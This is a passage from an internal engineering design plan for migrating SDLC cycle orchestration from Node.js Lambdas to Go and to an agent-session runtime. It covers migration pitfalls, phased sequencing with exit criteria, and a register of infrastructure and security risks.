**The constraint that most shapes the choice, and it cuts against the obvious answer.** `context/plans/go-migration-plan-for-node-js-lambda-handlers.md` sequences the work in waves and puts **the orchestrator last — Wave 5 — explicitly because it is the most critical path, has the most complex state machine, and depends on patterns proven in the earlier waves.** `sdlcManager` was Wave 1 and is done; `qaAgent` and `engineeringAgent` are Wave 4. So the migration plan's own reasoning says *do not migrate the orchestrator early*, while this design needs the cycle dispatch path and the event consumer in Go now. **Those two pull in opposite directions and the tension is real.** It is the single most important thing for the implementation spec to resolve, and resolving it is not this document's job.

**If the shape chosen is route-by-route repointing — moving one API Gateway route's `target` to a new Go integration — three things will bite, and all three are silent.** Recorded here because this is the section that holds Go-migration consequences, and because each has already been hit once.

1. **The migration unit is the *path*, not the Terraform resource.** Nineteen `/iam/v1/...` routes mirror the JWT `/v1/...` routes with `AWS_IAM` authorization, **nine of them on the orchestrator** — including `approve-plan`, `POST /cycles`, `iterate`, `cancel` and all three PR actions. Repointing only the JWT route splits one endpoint **by authentication mode**, with the cycle transition table live in two languages selected by who called. The file that creates those routes states the invariant itself: *"Same Lambda integrations — no handler changes required."* **Repoint both, and treat the pair as one unit.** This is not a safe default; it is the documented contract of the route pair.
2. **The Go handler must be prefix-agnostic, and nothing in-repo will tell you if it is not.** The JS handler contains **zero** references to `/iam/` — it matches on the path suffix, which is why the IAM routes needed no handler changes. If a Go port hardcodes `/v1/` in its router, repointing both routes **404s every IAM caller silently**: there is no in-repo caller of `/iam/v1/` (the `execute-api:Invoke` grant is a standalone policy attached outside this repo), so no test and no smoke check would notice. **This is the larger trap of the two**, and the mitigation is to route on the suffix and assert both prefixes in the handler's own tests.
3. **The route is probably not in a deploy target list, so the "one-line change" would never deploy.** `aws_apigatewayv2_route.approve_plan` is in **none** of `deploy-dev.yml`'s target lists — one of 36 untargeted routes the repo already carries. A repoint would be written, reviewed, merged and never applied, and the symptom — the Go Lambda is never invoked — is indistinguishable from the Go Lambda being broken. **Every repoint must add its route to the Core target list in the same change.** See R20.

**This document does not choose the shape.** Three are viable — extend the existing Go `sdlc-manager`, add a new Go handler for the SDLC cycle path, or bring `agentDrivenOrchestrator` forward in the wave order and migrate it wholesale — and the choice depends on packaging, on how much of the orchestrator the cycle path actually needs, and on whether Wave 5's "last" can be partially pulled forward without losing its rationale. **Part 1's specification owns it, constrained by the migration plan.** What this document does own is the consequences below, which hold whichever shape wins.

**What the mandate does not change.** §1.1's boundary principle and §1.2's ownership table are **language-agnostic and survive intact** — they are about which *component* owns which *concern*, and nothing in them mentions a runtime. So do §2's contracts, §3's data flows, §4's session profile, and §6's phase ordering and gates. That is worth stating positively: a mandate that changes the implementation language of one side of a boundary and invalidates none of the boundary's contracts is evidence the boundary was drawn in the right place.

**What the mandate does change, beyond the language:**

1. **§5.1–5.3's accounting does not survive.** The delete/collapse/survive tables are written as JS files and JS line counts — *"`ssmBuildRunner.js`, entire, 1,002 lines"*, *"`orchestratorHandler.js` 1,369 → ~250"*. Under a Go rewrite, "collapse this JS file to 250 lines" is not a meaningful instruction: the JS file is deleted and a Go handler is written. **The deletions still hold** (the SSM path, the JSON-blob generators, the placeholder handler, the fallback planner all still go) but the *collapses* become ports, and §5.4's net-line-count arithmetic is void. Re-derive the accounting against the chosen shape; do not try to reconcile it with the tables as written.
2. **The event consumer becomes Go, and two of its pieces already shipped in JS.** `runtimeEvents.mapSessionEvent`, `buildCompletionEffect` and `applyRuntimeEffect` are **already merged on `develop`** in JS, with tests. This document's plan was to keep and extend them. That is now a port, and it creates the cross-language contract requirement recorded in §2.4 — which is the consequence that matters most and is not a language question at all.
3. **The JS-specific mitigations in this document need re-reading as Go.** The extraction into `backend/common/` exists because a separate JS Lambda cannot `require` from another handler's directory and the shared layer is the only path; Go has no such constraint, so the *reason* for that shape evaporates even though the *requirement* — one implementation of the effect rules, reachable from both the dispatch path and the consumer — does not. Likewise the `Queries.*` convention and the no-`process.env`-in-`common` rule are JS conventions with Go equivalents that are not the same rules. **Carry the requirements across; do not carry the mechanisms across.**

---

## 6. Sequencing

The ordering principle: **prove the auth path in isolation before anything is built on it.** It is the only item in this plan that cannot be unit-tested, cannot be verified from source, and blocks everything else.

> **Amended — the phase numbers below are labels, not the execution order.** Four changes:
>
> ```
> Phase 0 (cleanups) ─┬─ independent, start both immediately
> Phase 4b (statuses) ─┘
>        ↓
> Phase 1 (auth proof) → Phase 2 (sessions) → Phase 3 (transport)
>        ↓   ← legacy-cycle gate: the shared-code extraction is unflagged
> Phase 4 (engineering cutover, INCLUDING the CI-build-failure loop)
>        ↓   ← legacy-cycle gate again
> Phase 5 (planning) ─┬─ can overlap
> Phase 6 (QA)       ─┘
>        ↓
> Phase 6b (deploy-failure loop + the operator request-changes path)   ← NEW
>        ↓
> Phase 7 (deletes)   ← the point of no return
> ```
>
> 1. **Phase 4b ships before Phase 4, and before Phase 3's per-stage `error` mapping.** `applyTransition` throws on a target status absent from its table, so nothing may write `ENGINEERING_FAILED` until 4b has added it. It has no dependency on Phases 0–3 and can be built in parallel with them from day one.
> 2. **The CI-build-failure loop moves into Phase 4.** It was owned by no phase; see Phase 4 below for why deferring it makes Phase 4's own exit criterion unachievable.
> 3. **The deploy-failure loop gets Phase 6b.** Also owned by no phase, and a hard gate on Phase 7, which deletes the function it calls.
> 4. **Two legacy-cycle gates are added**, because `buildMode` does not bound the shared-code refactors (§7 R13).
>
> And a fifth, which is not an ordering change but a target — **and which 2026-09-25 has largely dissolved.** It read: *the SDK work targets 4.0.2, patched from the deployed 4.0.1, not `sherpa-sdk` HEAD*, on the grounds that bundling ~64 commits with the first machine consumer makes a misbehaving first cycle undiagnosable. **There is now no SDK work to target.** The terminal tools, the allowlist and the validator all live in `apps/runtime` via the MCP provider seam that exists in the deployed 4.0.1 (§4.3's retraction), so no publish and no version bump are on this plan's critical path at all.
>
> The underlying judgement stands and is worth keeping for whenever an SDK change *is* needed: **do not bundle a 64-commit bump with a first-of-its-kind consumer.** Take it as its own release, on the runtime owner's schedule. It is simply no longer a gate on anything here.

### Phase 0 — free cleanups (no dependencies, ship now)

- Delete `backend/common/codingAgentAdapter.js` (279 lines, zero callers). **Not `agentInterface.js`** — `cursorAgent/devHandler.js:8` and `qaHandler.js:8` extend its classes and that Lambda is deployed (`lambdas.tf:1474`).
- Fix `runtimeDispatch.js:45` — `mode: 'agent'` → `'do'`. Live bug, already shipped.
- Fix `runtimeDispatch.js:42-44` — the `typeof expandedRequirements === 'string'` check that drops the plan. Live bug, already shipped.
- Fix `runtimeDispatch.js:48` — `task.slice(0, 80)` against `SESSION_NAME_MAX_LENGTH = 50`. Would 400 on the first real create.
- **Fix the activity feed with a shared merge-and-sort selector** in `backend/common/`, called from both `CycleProgress.jsx` and `progressTracker.js` (§1.5 — amended; the one-line fallback this document originally prescribed is broken, and there are three writers, not two). This is the change that turns a silent cutover failure into a non-event. Sweep the two adjacent name mismatches (`createdAt`→`startedAt`, `iteration`→`currentIteration`) in the same change, and test the selector behaviourally — the original test plan was source-text regexes over field names and could not have failed on the bug.
- **Read `expandedRequirements.approach`, not `technicalApproach`.** Nothing has ever written `technicalApproach`. One word, twice, and it makes the plan a reviewer sees complete before Phase 5 changes who writes it — and it matters beyond the dialog, because `approach` has committed non-UI readers that silently degrade a plan to a one-line task without it (§1.4).
- Fix `auto-approve.ts:38` in `sherpa-sdk` — split on single `|`, reject `$()` and backticks. Affects human sessions today.
- **Ship runtime logs to CloudWatch.** The log group `/aws/ec2/${var.customer_id}-sherpa-runtime` is already provisioned with 30-day retention (`sherpa-ec2.tf:337`) and the comment there says it is waiting on shipping. Nothing shipped to it: the CloudWatch agent config collects `mem_used_percent` and `disk_used_percent` only (`sherpa-ec2-cloud-init.sh.tftpl:91-106`). So runtime logs live in journald on the instance and the only way to read them is an SSM session — onto the box this migration exists to stop using. Add a `logs` section to the existing agent config for the runtime's systemd unit, and put `sessionId` in the runtime's log lines so a cycle traces to its logs. Group, retention and IAM already exist; this is a config block, not new infrastructure.

  Not a correctness issue — `stuckCycleDetector` already detects stalls and notifies Slack when `SLACK_WEBHOOK_URL` is configured. It is the difference between knowing a cycle stalled and knowing why, which matters once nobody is watching a terminal. Journald is not persisted, so an instance replacement takes the evidence with it.

Independently verifiable: unit tests plus one screenshot of a live cycle's activity feed. `backend/__tests__/runtimeDispatch.test.js`, `runtimeEvents.test.js`, `applyRuntimeEffect.test.js` and `stalledCycleDetection.test.js` already exist.

### Phase 1 — prove the auth path against the live runtime

The runtime is already deployed in testing (§1.3), so this is empirical, not a build. Order matters:

1. **Curl first, build nothing.** Mint an M2M client via `apiCredentialManager` (operational, not Terraform — `credmanager/create.go:66-69`), request a `client_credentials` token, and hit an existing `command_center_api` route with it. **The one thing being tested: does a token carrying `client_id` rather than `aud` pass `cognito_authorizer`'s `audience` check** (`main.tf:242`)? This has never been exercised (§1.3). Ten minutes; can invalidate the whole ingress design.
   - If it fails → Option A needs a Lambda authorizer rather than the JWT authorizer, or Option B (§2.1) becomes the better path. Decide before building.
2. Add the API Gateway route + `HTTP_PROXY` integration (with the client-id parameter mapping, §2.2), the two ALB rules, and the shared secret. **Add all of them to `deploy-dev.yml`'s `-target=` list in the same PR** (`.github/workflows/deploy-dev.yml:427+`) — untargeted resources are silently not deployed.
3. Add the `/v1/sdlc` namespace and a `/v1/sdlc/health` endpoint in the runtime server, returning the existing `HealthResponse` and nothing else. It must be a **separate prefixed plugin**, not a route inside the existing workspace encapsulation — that scoping is also what lets the ACL hook apply to `/v1/sdlc/*` without leaking onto the human routes.

**This is not a day of curl.** Step 1 is ten minutes and can invalidate the design. Steps 2 and 3 are real work in three repos, and step 3 is the first change to the runtime server — whose deploy path is a manual SSM RunCommand, not a pipeline. Phases 1, 2 and 3 all depend on it, and **scheduling those manual deploys is the largest schedule risk in the plan and is not a technical one** (§7).

**Exit criterion:** a Lambda in testing fetches an M2M token and gets a 200 from `/v1/sdlc/health`. Plus four negatives: no token → 401 at API Gateway; wrong scope → 403 at API Gateway; valid token but direct-to-ALB without the header → **403 from rule 6, not a Cognito 302**; correct header but no token → never reaches the ALB.

Nothing downstream starts until this passes.

### Phase 2 — session create/read over HTTP, no events

- `/v1/sdlc/sessions` create + get, the ACL, `instructions`, `profile`, and `correlation` in the create payload.
- **`DELETE /sessions/{id}`** with workspace teardown (§2.3, §3.8). It belongs here, not later: Phase 4 hits supersede on the very first QA iteration, and without release the second engineering session cannot check out the branch the first still holds.
- `reportCompletion` in `sherpa-sdk`, including the git primitives that do not exist yet (§2.6).
- The per-session profile in the runtime server.
- CC: real `createRuntimeSession` with its idempotency guard (§3.2), real instruction composition.

**Exit criterion:** CC starts a `do` session against a throwaway repo with a trivial task; the agent commits and pushes; CC polls `GET /sessions/{id}` and sees `status: 'completed'` with a `commitSha`. Polling is deliberate throwaway scaffolding — it proves the execution loop before the transport exists.

ACL tests belong here, not later: a second M2M client must get 403 reading the first's session, and a human session must not be readable at all.

### Phase 3 — the SQS event transport

Infrastructure: the FIFO queue + `.fifo` DLQ, the `maxReceiveCount = 3` redrive, the DLQ alarm, the event source mapping with `function_response_types = ["ReportBatchItemFailures"]`, and the `sqs:SendMessage` statement on the runtime instance role (§2.4). **All of it into `deploy-dev.yml`'s target list**, along with `sdlcEventConsumer`, its log group and its permission.

Runtime: the publisher — envelope, `messageGroupId = sessionId`, and the **per-envelope UUID** that `MessageDeduplicationId` needs (§2.4 — amended; no durable counter); the machine event filter; the two-tier cadence with its flush-on-Tier-1 rule (§2.5); `reason` on `sessionStatus`; `'queued'` on `SessionStatus`.

CC: the `sdlcEventConsumer` Lambda; the `runtimeEvents` extensions (`stage` from `correlation`, the three-way `completion` dispatch, the per-stage `error` mapping); the conditional status write that makes replay safe (§2.4); and **the extraction of `applyRuntimeEffect`, `routeAfterEngineering` and the engineering-completion sequence into `backend/common/`** — the largest CC-side task in the plan (§5.4).

**`ENGINEERING_FAILED` is written by this phase's `error` mapping and created in Phase 4b, so 4b ships first.** Amended: the original wording offered stubbing the constant as an alternative. **Do not stub it.** `applyTransition` does not degrade on an unknown target status — it **throws**, before any of its report-and-proceed logic — so a consumer writing a half-added status does not log a violation, it throws, SQS retries, the message group freezes for ~9 minutes and the message lands in the DLQ. Every failing runtime cycle would freeze. Either 4b is merged, or this phase's engineering arm keeps mapping to `FAILED` exactly as it does today and a one-line follow-up flips it.

**Exit criteria**, all five:
1. A cycle's activity feed fills from a real session, at roughly 10-second granularity.
2. A deliberately poisoned message freezes only its own session's group, reaches the DLQ within ~9 minutes, fires the alarm, and the group then drains **in order** with nothing lost (§2.4). Other sessions in the same batch are unaffected.
3. Two concurrent sessions interleave in the queue without cross-contaminating cycle state (different `messageGroupId`s).
4. A replayed terminal message does not double-open a PR (`index.js:1857`'s guard) and does not move the cycle backwards (the conditional status write, §2.4). Test by redriving from the DLQ **after** the 5-minute dedup window, which is the case dedup does not cover.
5. ~~Restarting the runtime mid-session does not reuse a `seq`.~~ **Deleted with the counter (§2.4).** Replace it with the property that now matters: a duplicate delivered after a restart — which the per-envelope UUID makes the *expected* outcome rather than an edge case — applies without double-opening a PR and without moving the cycle backwards.

### Phase 4 — engineering step cutover


One application with `agentConfig.buildMode = 'runtime'` (the switch at `index.js:1628` already exists). Runs alongside the SSM path; every other application is untouched.

**Prerequisites, each of which will otherwise fail every cycle. Amended: there are four, not two.**

- **Phase 4b must be merged** (see the ordering note at the top of §6).
- **The engineering-completion sequence must be in the consumer** (§3.3). Without it no PR is opened, `cycle.branch`/`githubUrl`/`buildHeadSha` are never set, and three of four `sdlcType` branches never persist. "Complete through PR-create" is not reachable until this lands.
- **§3.9's session-aware stall handling — amended, and this prerequisite is inverted (§3.9).** `stuckCycleDetector` is in no `-target=` list, so no change to it has ever reached AWS — which means its fifteen-minute threshold **cannot fire**, and the wrong-failure this prerequisite existed to prevent is already impossible. What is missing is stall *detection*, not stall *protection*, and the consumer's DLQ behaviour does not cover it. **Not a blocker for a supervised first run; required before unattended cycles. And the session-aware branch must land in the same deploy as the `-target=` entries**, because fixing the target list alone re-arms the fifteen-minute failure against live sessions.
- **The CI-build-failure loop must be migrated in this phase.** New, and it is the fix for this phase's own exit criterion. An earlier plan deferred it and merely guarded the un-migrated dispatch site so it failed loudly. But an `ai-qa` or `ci-only` cycle reaches `QA_TESTING` only by passing CI on the pushed commit, and **an agent's first commit failing CI is the common case, not an edge case** — so under that plan every such cycle died needing manual repair, while the phase gated on ten *consecutive* clean runs. Achievable only by luck. Migrate it here, and extract the engineering-session dispatch with its three callers in view (plan-approved, build failure, QA failure) rather than retrofitting it later.

The two remaining un-migrated dispatch sites — the operator's request-changes path and the post-merge deploy loop — go to Phase 6b, and until then must **fail loudly** rather than silently falling through to the legacy Bedrock path (§5.2).

**Exit criteria**, measurable rather than impressionistic:

1. Ten consecutive cycles reach `PENDING_APPROVAL` or `QA_TESTING` with a draft PR whose head SHA equals the session's reported `commitSha`.
2. Every one of the ten shows a non-empty activity feed in the UI — the `progressLog` fix from Phase 0 holding under the real write path (§1.5).
3. At least one cycle in the ten runs longer than 15 minutes without being failed by `stuckCycleDetector`, proving §3.9.
4. `cycle.buildHeadSha` is set on every `ai-qa`/`ci-only` cycle and the poller picks each one up — the `BUILDING` hop still works (§3.3).

### Phase 4b — step-specific failure statuses

**Amended: ships first — before Phase 4, and before Phase 3's per-stage `error` mapping.** It has no dependency on Phases 0–3 and should start on day one alongside Phase 0. Worth doing on its own merit too: a cycle sitting in `FAILED` today does not say which step died.

**Land it as one commit.** The pieces cannot be ordered to keep the build green: an existing invariant test asserts that every member of `ATTENTION_STATUSES` has at least one operator affordance, so the moment the constant joins that set the suite is red until the affordance lands. Build the slices in order, run the suite once, land one commit.

Add `ENGINEERING_FAILED` to `backend/common/cycleStatuses.js` alongside the existing `PLANNING_FAILED` and `QA_FAILED`, and narrow `FAILED` to the genuinely generic cases.

This is an **add-and-narrow, not a rename.** `FAILED` is load-bearing beyond engineering: max-iterations-reached (`index.js:2108`), deploy-fix exhaustion, and QA-stage failures (`:241`, `:302`) all set it, and `/continue` branches on `status === FAILED && pullRequest?.number` to skip the build and route to QA (`:778`, `:874`). Those keep `FAILED`.

Touch list, because a missed one is a silently dead path:

- `cycleStatuses.js` — the constant, plus `ATTENTION_STATUSES` (engineering failures are human-retryable, same as the other two) and the polled/terminal sets.
- `frontend/src/components/cycles/cycleStatusConfig.js` — `STATUS_CONFIG` entry with a label, colour and primary action, or the card renders an unstyled unknown status.
- `testResultPoller` — any `findCyclesByStatus(FAILED)` query.
- `retryStalled` / `retryQA` / `/continue` — confirm each still matches the statuses it means to.
- Existing records already in `FAILED` stay there. Do not migrate them; treat `FAILED` as "failed, step unknown" for anything written before this phase.

**The risk to design against is the half-migration** — new code writes `ENGINEERING_FAILED` while an old check still tests `FAILED`, and a path stops working with no error. This codebase has form: the hyphen/underscore mismatch that left four `AttentionCard` buttons inert (#708), and `mapStatusToStageIndex`'s keys, which were uppercase constant names that never matched a lowercase status, so every cycle fell through to `-1` (`CycleProgress.jsx:29-31` documents the fix). Both were silent.

**Exit criterion:** an engineering failure lands in `ENGINEERING_FAILED`, renders correctly in the attention card with a working retry, and the three generic `FAILED` producers above still land in `FAILED`.

### Phase 5 — planning as a session

`submitPlan`, plan-mode profile, `expandedRequirements` persistence from the validated payload, and the approval gate's single path — create a fresh `do` session from the persisted plan, **then** release the plan session (§3.2 — amended ordering, §3.8).

Also here, because it is the other caller of the function being deleted: **a plan-session replacement for `handleRequestRevision`** (`index.js:4870`, calling `expandBusinessGoals` at `:4904`). Plan revision feeds `planComments.storePlanVersion`; without a replacement, deleting `expandBusinessGoals` in Phase 7 silently breaks it (§5.1).

**Exit criteria:**

1. `submitPlan`'s output populates every field the plan-review dialog reads — `summary`, `approach`, `requirements[]`, `risks[]` (`ApplicationDetail.jsx:1697-1768`) — measured against **`generatePlan`'s schema** (`orchestratorHandler.js:298-321`), which is the primary planner, not against `expandBusinessGoals`, which is the narrower fallback (§3.1).
2. `recordCheckpoint`'s evidence counts (`index.js:1298-1317`) are non-zero, i.e. `filesToCreate`/`filesToModify` are populated — which they were not whenever the fallback planner ran.
3. Plan revision produces a new plan version through `planComments.storePlanVersion`, as today.

No long-gate test is needed: nothing crosses the gate any more (§3.2). A 24-hour approval and a one-minute approval take the identical code path, and that is the point of the single-path design.

### Phase 6 — QA as a session

Same shape, with two differences from the engineering step: a **separate clone checked out at `commitSha` with `baseBranch` fetched** (§3.5), and **`submitReview` rather than `reportCompletion`** as the terminal tool (§2.6) — QA changes no files, so `reportCompletion`'s empty-tree rule would reject every honest completion.

`ReviewCompletion` → `cycle.qaResult` → CC validates findings against the real diff → `pulls.createReview`.

**Exit criteria:**

1. QA findings cite file+line and survive the diff validation before posting, matching today's behaviour (`qaAgent/orchestratorHandler.js:288-291`).
2. QA reviews the **engineering commit**, not the branch tip — verified by pushing to the branch mid-review and confirming the review still targets the original `commitSha` (§3.5).
3. A `fail` verdict creates a new engineering session carrying the findings, and releases the superseded one (§3.2, §3.8).
4. QA's session has no write tools — an attempt to edit a file under review fails, rather than quietly fixing the finding (§4.3).

### Phase 6b — the deploy-failure loop and the request-changes path

**New in the amendment.** §3.7 describes the deploy-failure loop-back as *"structurally identical to the QA loop"* — and then no phase owned it. Neither did the operator's request-changes path at the PR gate. Both call `invokeEngineeringAgent`, which **Phase 7 deletes**, so leaving them un-migrated means either keeping the legacy Lambda path alive indefinitely — so `buildMode` never becomes unconditional and Phase 7 never completes — or shipping their loud-failure guards permanently, so a deploy failure on a runtime application is an unrecoverable dead end a human must fix by hand.

Two sites, and the scope is deliberately narrow: **this phase changes how engineering is dispatched and nothing else.**

- The post-merge deploy loop. It **keeps its classification logic untouched** — the infra-versus-code check and the three-attempt cap stay in CC, because deciding whether a failure is worth an agent at all is orchestration, not agent work (§3.7), and these are exactly the parts not to disturb under schedule pressure. It also branches off the **default branch**, not the cycle's, which is merged and gone by then, and it keeps its second PR and its auto-merge flow.
- The operator's request-changes branch, which follows the same timing.

It is small — the engineering-session dispatch already exists from Phase 4 and this adds its fourth and fifth callers — and it is a **hard gate on Phase 7**. Its exit criteria are that the loud-failure guards are gone, the three-attempt cap still fires, and one runtime cycle survives a real post-merge deploy failure and completes.

Why it is separate from Phase 4 rather than folded in: the build loop is on the common path and blocks Phase 4's own exit criterion, whereas the deploy loop is post-merge, genuinely rarer, and carries the classification logic worth leaving alone until the rest is stable.

### Phase 7 — delete

`ssmBuildRunner.js`, the collapsed halves of both orchestrator handlers, `expandBusinessGoals`, `handleEngineeringTask`, the SSM/EC2 dependencies. Only after `buildMode: 'runtime'` is unconditional **and Phase 6b has merged**.

**This is the point of no return** and it is the only one — see §7 R13, which corrects the assumption that everything before it rolls back with a DynamoDB field edit.

Two guards before deleting `expandBusinessGoals`: its plan-revision caller (`index.js:4904`) must already have a plan-session replacement from Phase 5 (§5.1), and `agentInterface.js` stays — it is live (§5.1), and the only reason it comes up here is that an earlier draft of this plan had it in the delete list.

---

## 7. Risks and open questions

Separated deliberately: the decisions in the brief are settled and not restated here as risks. These are the things that can still go wrong or are not yet known.

### Unverified — must be answered, not designed around

| # | Item | Impact if it goes the wrong way |
|---|---|---|
| U1 | Does a Cognito `client_credentials` access token (carrying `client_id`, not `aud`) pass `cognito_authorizer`'s `audience` check? | **Amended: this may stop being a question at all.** It blocks Phase 1 *only under Option A*, and §2.1 as amended recommends against Option A — under either Option B or Option C there is no API Gateway hop, so no audience claim to resolve and nothing to prove. It was this plan's only blocking, empirically-unanswerable unknown, and **removing it is the largest single benefit of the amended ingress recommendation.** Keep the row until the ingress decision is taken; if A is chosen anyway, it is still a ten-minute curl and still comes first. |
| U2 | ~~Is `planCreated` fired where the publisher can see it?~~ | **Answered: yes, fully wired** end to end from the engine callback to the broadcast frame. Low stakes either way, because §3.1 routes around it via `submitPlan`. Closed. |
| U3 | Does the runtime server hold module-level state that a second concurrent session would clobber? | **Partly answered — and the answer found the consequential case. Still unowned for the remainder.** Five globals are now known, and the fifth is the one that matters: the **GitHub token manager's `activeRepos` map and its single shared `hosts.yml`**, which grant every concurrent session push access to every other's repository (§1.3, §4.4, R17). That is not a theoretical clobber; it is a credential over-grant, measured live. The other four are the prompt-loader's single-entry cache (SDLC sessions bypass it), the process-wide settings store (mutable by any caller past the ALB — §4.1), the session store (whole-file writes under one mutex key — §2.4), and the broadcaster's per-session buffers (which leak, because their cleanup has zero callers). **All five were found incidentally rather than by audit**, which is the point: the one with security consequences surfaced only because someone probed a running instance. So the honest statement is *"five known, one serious, nobody has looked for the rest"* — and the discovery rate so far argues for looking rather than against. R4's concurrency posture rests on this. The audit is hours, not days: sweep the runtime and the SDK for module-scope mutable state and write down what is there. **Assign it in Phase 2.** |
| U4 | ~~Does the Fargate migration change workspace persistence?~~ | **No longer load-bearing.** Every step entry is a new session (§3.2) and workspaces are released on supersede (§3.8), so nothing depends on a workspace outliving its session. Ephemeral-per-task is fine. |

Resolved from the brief's unverified list: git push credentials **are** wired (§1.3, `sherpa-ec2-cloud-init.sh.tftpl:61-68,155-157`), and `scripts/sync-knowledge-base.sh:7` targets `command-center-engineering-kb-dev`, **not** the `sherpa_kb` bucket (§2.6).

### Risks

**R0 — The activity feed goes blank at cutover.** (§1.5) The highest-probability silent failure in the whole migration: `applyRuntimeEffect` writes `progressLog`, the UI reads `activities`. One line, and it is in Phase 0 precisely so it cannot be forgotten in Phase 4. Listed first because it is the only risk here whose mitigation is already fully specified and free.

**R1 — `runCommand` caps at 120s where the SSM path allowed 300s.** (`node-platform-adapter.ts:186` vs `ssmBuildRunner.js:24`) A command taking two to five minutes works today and will not after cutover. Not observed — the runtime has only carried interactive human workloads, so there is no evidence either way. The failure is unambiguous when it happens (`Exit code: 124`, "Command timed out after 2 minutes."), so **deal with it if a cycle hits it** rather than adding a config field speculatively. This is a deliberate deferral, and §5.4 does not budget for it; if Phase 4 trips it, a per-session `commandTimeoutMs` is the fix and it is a day's work in `sherpa-sdk` and the runtime.

**R2 — The auto-approve allowlist reads like a security control.** (§4.4) Someone will cite `autoApprovedCommands` as evidence the runtime is sandboxed. Mitigation: say in the code and the runbook that SDLC sessions run with blanket auto-approve, and that isolation lives at the host layer.

**R3 — The publisher never publishes.** (§2.4) SQS retries, the DLQ catches poison, and no invocation spans a session. What remains: if the runtime fails to `SendMessage` at all (IAM misconfigured, process dead, queue URL wrong), nothing on the CC side knows. Caught only by `isStalled` at 20 min and `stuckCycleDetector` (`lambdas.tf:2314`). An IAM/config failure surfaces on the first cycle rather than intermittently, but it is the one stall case that remains.

**R4 — One runtime, ten slots, shared by humans and machines.** `MAX_CONCURRENT_SESSIONS=10` (`sherpa-ec2-cloud-init.sh.tftpl:152`), FIFO on overflow. A burst of cycles starves human sessions with no warning — the human surface will just sit there. No reservation mechanism exists. Mitigation for v1: `'queued'` status surfaced to CC (§3.3) so the wait is at least visible. Real fix: reserved slots, or Fargate per-task.

**R5 — FIFO group-blocking freezes a cycle for ~9 minutes.** A message the consumer cannot process blocks its whole `messageGroupId` — the session — and **partial-batch reporting does not rescue it**: for a FIFO source, `ReportBatchItemFailures` returns the failed message *and every later message in that group*, because that is what ordering means. So the cycle freezes until `maxReceiveCount` is exhausted and the message reaches the DLQ: 3 receives × 180s visibility ≈ 9 minutes, against a 20-minute stall threshold (`cycleStatuses.js:144`). It fits, but the margin is the design, not an accident — changing either number without re-checking that budget is how this becomes a stall. Phase 3 exit criterion 2 measures it.

**R5b — The status write is not idempotent today.** `applyTransition` defaults to `strict = false` and assigns `cycle.status` even after reporting an illegal transition (`sdlcEngine.js:507,530-532,544`) — deliberately, so error handlers can always reach `FAILED`. Under at-least-once delivery that means a replayed transition moves a cycle backwards silently. The conditional status write in §2.4 is the fix and it is easy to skip, because nothing fails visibly without it until a redrive happens in production.

**R5c — ~~The `seq` counter is invented state with a silent failure mode.~~ Deleted.** The durable counter is withdrawn (§2.4); the dedup id is a per-envelope UUID, so a restart mints a new id and the message is **delivered as a duplicate** rather than silently dropped. The consumer is idempotent against duplicates by construction (R5b). This risk no longer exists, and recording its deletion is worth more than deleting the row — it is the clearest example in this document of a risk that was manufactured by a design choice rather than discovered in the problem.

**R6 — Two prompt-assembly paths during the transition.** `AgentBootstrap` currently feeds both Bedrock system blocks and, after this change, the `instructions` field. During Phases 4-6 both are live. Divergence between them is a silent quality regression. Mitigation: one composition function, two consumers.

**R7 — Five PR-create sites, none consolidated.** (§3.4) Each must produce a body from `EngineeringCompletion` rather than from the old JSON blob. Missing one leaves a path that produces an empty PR body and nobody notices for weeks.

**R7b — the shared Go merge helper is lossy, and three ports duplicate merge behaviour because of it.** New, 2026-09-25, and it is R7's problem one layer down. Under the Go port, three narrow handlers each reproduce their own slice of merge and PR behaviour rather than calling the shared client. That looks like gratuitous duplication and it is not: `ghclient.MergePR` is `func (c *Client) MergePR(ctx, owner, repo string, prNumber int, method string) error` — it returns **only `error`**, so it cannot return the merge SHA that both JS merge paths persist to `cycle.pullRequest.mergeSha`, and it takes **no commit title**.

**So the duplication is the price of faithful reproduction, and the consolidation worth doing is not the obvious one.** Do **not** migrate the three callers onto the shared helper — that silently drops `mergeSha`. **Fix the helper's signature** to return the merge result and accept a commit title, then migrate.

**And do it after the cutover, not before.** The three ports' present value is that their goldens pin the JavaScript verbatim; consolidating before parity is established makes a consolidation bug indistinguishable from a parity failure. Afterwards the goldens still exist and can be re-run against the consolidated helper.

**The cheap mitigation, and it is the one that prevents the regression:** a comment in each of the three ports saying *why* it does not use the shared helper. Three independent slices of merge behaviour with no such note is exactly how the next engineer consolidates them onto a lossy helper and drops `mergeSha` without noticing.

**R11 — The shared secret is static and lives in Terraform state.** (§2.1 item 4) Neither API Gateway parameter mapping nor an ALB header condition resolves a secret at request time, so the literal is in config and in state. Rotation is a two-place edit. This is Option A's weakest point and the strongest argument for Option B.

**Condition on the fallback this document allows:** if the header-secret variant is ever selected, it must be **gated in Terraform so it cannot be chosen outside testing** — not merely tracked for removal. This risk exists to predict that the expedient will be taken and then persist, so the one control that makes it non-permanent belongs beside the prediction: "it cannot reach production even if nobody closes the ticket" is the only version of that promise worth making.

**R12 — The ACL rests on a forgeable header.** (§2.2) `HTTP_PROXY` does not forward authorizer claims, so caller identity arrives as a mapped header that anyone holding the ALB secret can set. Scoping v1 to one client and one tenant keeps the blast radius honest; describing it as multi-tenant authorization would not be.

**R8 — The approval race and the broken webhook are inherited, not introduced.** (§3.6) Neither is worsened; both will be more visible once cycles run faster. Worth their own issues.

**R9 — `sherpaSessions.js` drift.** `backend/common/sherpaSessions.js` documents that it is a *port* of the SDK's S3 key rules, not a dependency, and that drift silently empties the session list. Machine-created sessions publishing under the same prefix increases the volume flowing through that port. Keep the drift-guard test green. **This is now the template rather than an isolated risk** — see R18, where the same pattern has to hold across three languages instead of two, and where the guard-the-port discipline R9 established is the stated answer.

**R10 — The ACM certificate on the Sherpa ALB.** `var.acm_certificate_arn` is documented as needing to live in `us-east-1` for CloudFront and is attached to a *regional* ALB. If `aws_region != us-east-1` this fails at apply. **Amended to a deliberate deferral rather than a Phase 1 surprise:** the runtime is already live in `us-east-1` testing, so the certificate evidently resolves there and Phase 1 will not trip it. It bites the first customer in another region. Unrelated to this design, recorded so it is deferred rather than forgotten, and owned by whoever provisions the next non-`us-east-1` instance.

